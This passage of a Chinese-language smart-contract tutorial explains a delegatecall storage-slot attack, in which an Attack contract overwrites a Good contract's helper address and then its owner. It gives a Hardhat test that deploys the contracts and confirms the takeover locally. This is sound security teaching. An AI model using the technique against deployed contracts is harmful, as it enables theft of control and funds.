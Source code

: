 现在，`helper`合同的地址已经被`Attack.sol`的地址覆盖了。在`Attack.sol`的`attack`函数中被执行的下一件事是另一个setNum，但数字为1。数字1在这里没有任何意义，它可以被设置为任何东西。

现在，当setNum在`Good.sol`中被调用时，它将把调用委托给`Attack.sol`，因为`helper`合约的地址已经被覆盖了。

`Attack.sol`内的`setNum`被执行，它将`owner`设置为`msg.sender`，在这种情况下就是`Attack.sol`本身，因为它是`delegatecall`的原始调用者，而且因为所有者在`Attack.sol`的`Slot 1`，`Good.sol`的`Slot 1`将被覆盖，也就是它的`owner`。

攻击者能够改变`Good.sol`的`owner`👀 🔥。

让我们试着用代码来实际执行这个攻击。我们将利用Hardhat测试来演示这个功能。

在`test`文件夹中创建一个名为`attack.js`的新文件并添加以下几行代码

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Should change the owner of the Good contract", async function () {
    // Deploy the helper contract
    const helperContract = await ethers.getContractFactory("Helper");
    const _helperContract = await helperContract.deploy();
    await _helperContract.deployed();
    console.log("Helper Contract's Address:", _helperContract.address);

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy(_helperContract.address);
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Now lets attack the good contract

    // Start the attack
    let tx = await _attackContract.attack();
    await tx.wait();

    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
```

要执行测试以验证`Good`合同的`owner`确实发生了变化，在你的终端上，指向包含本层所有代码的目录，执行以下命令

```bash
npx hardhat test
```
